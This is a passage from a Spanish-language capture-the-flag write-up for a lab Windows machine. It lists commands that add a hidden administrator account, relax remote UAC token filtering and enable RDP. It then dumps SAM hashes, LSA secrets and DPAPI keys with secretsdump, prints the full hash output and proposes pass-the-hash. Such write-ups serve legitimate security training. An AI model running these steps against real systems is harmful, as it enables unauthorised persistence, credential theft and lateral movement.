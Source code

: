 No voy a usar mimikatz en este writeup ,creo un usuario admin y luego dumpeo las credenciales con [secretsdump](https://airman604.medium.com/dumping-active-directory-password-hashes-deb9468d1633) 
 
   ```bash
 net user mario mario123 /add
net localgroup administrators mario /add
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
 ``` 


  ```bash
#Activamos RDP
PS> Set-NetFirewallRule -Name RemoteDesktop-UserMode-In-TCP -Enabled true
PS> Set-ItemProperty -Path 'HKLM:\\System\\CurrentControlSet\\Control\\Terminal Server\\WinStations\\RDP-Tcp' -name "UserAuthentication" -Value 1
PS> Set-ItemProperty -Path 'HKLM:\\System\\CurrentControlSet\\Control\\Terminal Server'-name "fDenyTSConnections" -Value 0
 ```

```bash 
secretsdump.py mario:mario123@10.10.10.132 
```
```bash
[*] Service RemoteRegistry is in stopped state  
[*] Starting service RemoteRegistry  
[*] Target system bootKey: 0xf684313986dcdab719c2950661809893  
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)  
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d5312b245d641b3fae0d07493a022622:::  
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::  
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::  
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:52a344a6229f7bfa074d3052023f0b41:::  
alice:1000:aad3b435b51404eeaad3b435b51404ee:998a9de69e883618e987080249d20253:::  
zachary:1007:aad3b435b51404eeaad3b435b51404ee:eef285f4c800bcd1ae1e84c371eeb282:::  
leo:1009:aad3b435b51404eeaad3b435b51404ee:60b05a66232e2eb067b973c889b615dd:::  
niels:1010:aad3b435b51404eeaad3b435b51404ee:35a9de42e66dcdd5d512a796d03aef50:::  
tolu:1011:aad3b435b51404eeaad3b435b51404ee:03e2ec7aa7e82e479be07ecd34f1603b:::  
mario:1012:aad3b435b51404eeaad3b435b51404ee:54a62417bb6a4beb67c8b4a2dc7a6897:::  
[*] Dumping cached domain logon information (domain/username:hash)  
[*] Dumping LSA Secrets  
[*] DefaultPassword    
leo:fe22ca6029a87b98e527686a56c12aa9  
[*] DPAPI_SYSTEM    
dpapi_machinekey:0xac6ecf4487d6451ab055dde974cd04dd2ae8463c  
dpapi_userkey:0x2d28120da695e819700547fa7329d71dc8e9b546  
[*] NL$KM    
0000   E3 05 BC AB 6F AC 32 0E  38 53 9A 46 3E A8 2B 90   ....o.2.8S.F>.+.  
0010   3E 1E A1 C3 94 65 8D 5D  5A 2A 6D F5 FC C4 93 49   >....e.]Z*m....I  
0020   CE 68 24 DF 38 F0 A6 3D  E1 60 73 E2 B1 CE 1A CC   .h$.8..=.s.....  
0030   43 DB 81 EE C8 34 DE 2E  98 4E 5C D3 35 3F 4A D4   C....4...N\.5?J.  
NL$KM:e305bcab6fac320e38539a463ea82b903e1ea1c394658d5d5a2a6df5fcc49349ce6824df38f0a63de16073e2b1ce1acc43db81eec834de2e984e5cd3353f4ad4  
[*] Cleaning up...    
[*] Stopping service RemoteRegistry
```
## User flag
* Aquí  vemos que hay un default password para el usuario leo, el cual es un falso positivo.. <br>
Ya que tenemos los hashes de todos los usuarios podemos hacer **Pass The Hash**
